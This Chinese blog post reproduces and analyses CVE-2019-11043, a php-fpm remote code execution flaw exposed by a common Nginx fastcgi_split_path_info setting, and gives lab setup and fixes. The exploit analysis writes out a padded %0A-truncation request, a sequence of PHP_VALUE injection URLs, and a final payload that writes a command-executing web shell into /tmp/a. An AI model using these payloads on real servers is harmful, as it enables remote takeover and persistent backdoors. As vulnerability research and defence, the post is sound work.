

The foregoing.
该CVE的来源很有趣，外国安研Andrew Danau做CTF题目时在URL添加0a截断，服务器响应异常，（开始以为题目利用点在此，）随后发现疑似服务器存在漏洞。随着安研们的研究，可知是php-fpm导致的问题，且若参照不当的NGINX配置(Nginx+phpfpm环境)，该CVE可被利用成RCE级的漏洞。
本文内容关于漏洞复现以及EXP简短分析，漏洞分析详见我的另一篇文章。
Build Env
0x01 Using Docker
使用phith0n的vulhub最为简洁明快：
1 | Download the latest version of the vulhub |
curl http://{your-ip}:8080/index.php显示helloworld%即配置环境成功。
当然，也可以选择CVE提交者neex提供的docker
0x02 Build by yourself
对于想要做漏洞分析，使用gdb调试的各位，可能搭建虚拟机调试环境会更加舒服。我这里选择Ubuntu 19.10，参照phith0n的docker-compose.yml搭建虚拟机漏洞环境：
- install PHP@7.2.10
1
2
3
4
5
6sudo apt-get install libfcgi-dev libfcgi0ldbl libmcrypt-dev libssl-dev libc-client2007e libc-client2007e-dev libxml2-dev libbz2-dev libcurl4-openssl-dev libjpeg-dev libpng-dev libfreetype6-dev libkrb5-dev libpq-dev libxml2-dev libxslt1-dev
wget http://de2.php.net/get/php-7.2.10.tar.bz2/from/this/mirror -O php-7.2.10.tar.bz2
./configure --prefix=/opt/php7.2.10 --enable-phpdbg-debug --enable-debug --enable-fpm CFLAGS="-g3 -gdwarf-4"
make
sudo make install - conf PHP-FPM
1
2
3
4
5sudo cp php.ini-development /opt/php7.2.10/etc/php.ini && cd /opt/php7.2.10
sudo cp etc/php-fpm.conf.default /etc/php-fpm.conf
sudo cp etc/php-fpm.d/www.conf.default etc/php-fpm.d/www.conf
为了便于研究，pm设为静态（子进程的数量由 pm.max_children 决定），并将pm.max_children设为1
sudo vim etc/php-fpm.d/www.conf
->
1 | [www] |
1 | cd sbin && sudo ./php-fpm -c ../etc/php.ini -y ../etc/php-fpm.conf |
- install&conf Nginx
1
2sudo apt-get intall nginx
vi /etc/nginx/conf.d/default.conf
->
1 | server { |
1 | sudo systemctl -l start nginx |
->
1 |
|
1 | 测试nginx是否可用 |
Vulnerability Emersion
根据网络安全威胁信息发布管理办法(征求意见稿)-第四条(三)，该部分不提供能够完整复现该CVE的细节，仅展示效果，望周知。
- 使用
go run . "http://{your-ip}:8080/index.php"后我们可以通过访问http://{your-ip}:8080/index.php?a={cmd}执行任意命令:

使用vulhub部署环境的，访问两次中只有一次可以执行命令，原因是该docker采用默认的php-fpm配置，
pm=dynamic&pm.start_servers=2，两次访问中只有一次是被已污染的pool处理: (原因具体详见我的另一篇分析文章)
1 | docker top xxx |
Exp Analysis
主要分析EXP默认参数的核心利用部分代码，附加参数、完整细节不讨论，有兴趣的读者自行分析源码，有问题通过微博/邮箱与我交流。
参考请求包如下：
1 | GET /index.php/path%0Ainfo.php?QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ HTTP/1.1 |
Methods[method]
设置exp的探测方法，默认采用session.auto_start，它作为php.ini配置时会在响应头set-cookie自动带上PHPSESSID。
NewRequester(url, cookie, delay)
解析url，并创建Requester供detect/attach作为包模版。
Detect(requester, m, params, onlyQSL)
核心之一，用于确定base-status-code / Q填充个数/ 8=D中等号个数..
- 首先url带上
/path\ninfo.php，检测被0a截断时的status-code为多少，用于作为base-status-code。同上的参考请求包。 - 循环增加URL中
Q个数(MinQSL(1500)->MaxQSL(1950))，直至服务器返回502，说明path->info指向了敏感堆（详见漏洞分析），导致崩溃，将该URL长度加入候选。最后将每个候选值-5/-10同样加入候选。 - 通过
SanityCheck()检测相关问题。 - 通过
MakePathInfo(method.PHPOptionEnable)设置URL使用/PHP_VALUE%0Asession.auto_start=1，与PosOffset即34的长度差距用;补齐，让URL总长度保持固定。 - 针对每个候选值，依旧循环增加URL中
Q个数(MinQSL(1500)->MaxQSL(1950))，根据响应头中有无PHPSESSID判断是否利用成功，利用成功后确定Q和=个数，即qsl和pl值。 - 通过
SetSetting将session.auto_start置回0。
Attack(requester, params)
接下来展开利用，依次写入如下配置：
- /index.php/PHP_VALUE%0Ashort_open_tag=1;;;;;;;
- /index.php/PHP_VALUE%0Ahtml_errors=0;;;;;;;;;;
- /index.php/PHP_VALUE%0Ainclude_path=/tmp;;;;;;
- /index.php/PHP_VALUE%0Aauto_prepend_file=a;;;;
- /index.php/PHP_VALUE%0Alog_errors=1;;;;;;;;;;;
- /index.php/PHP_VALUE%0Aerror_reporting=2;;;;;;
- /index.php/PHP_VALUE%0Aerror_log=/tmp/a;;;;;;;
- /index.php/PHP_VALUE%0Aextension_dir=%22%3C%3F=%60%22;;;
- /index.php/PHP_VALUE%0Aextension=%22$_GET%5Ba%5D%60%3F%3E%22
最后，通过RCE写文件进/tmp/a，服务器获取资源时会自动载入，相当于对所有php页面加了马：a=%3Becho+%27%3C%3Fphp+echo+%60%24_GET%5Ba%5D%60%3Breturn%3B%3F%3E%27%3E%2Ftmp%2Fa%3Bwhich+which
Influence Surface & Repair
若Nginx配置了fastcgi_split_path_info ^(.+?\.php)(/.*)$;，那么会允许.php后添加任意内容，并转发给php-fpm处理。
那么根本上，修复有两种方法，一种是直接更新php-fpm，第二种是将不合时宜的URL直接404，比如参照官方文档添加判断：
1 | fastcgi_split_path_info ^(.+?\.php)(/.*)$; |
或直接：try_files $uri =404
随着不当的Nginx配置在网络流传，导致本不该出现的问题也会在众多服务器中存在。RCE决定了该漏洞存在get-shell、提权、持续控制等更加影响深远的问题，值得服务器维护者的关注。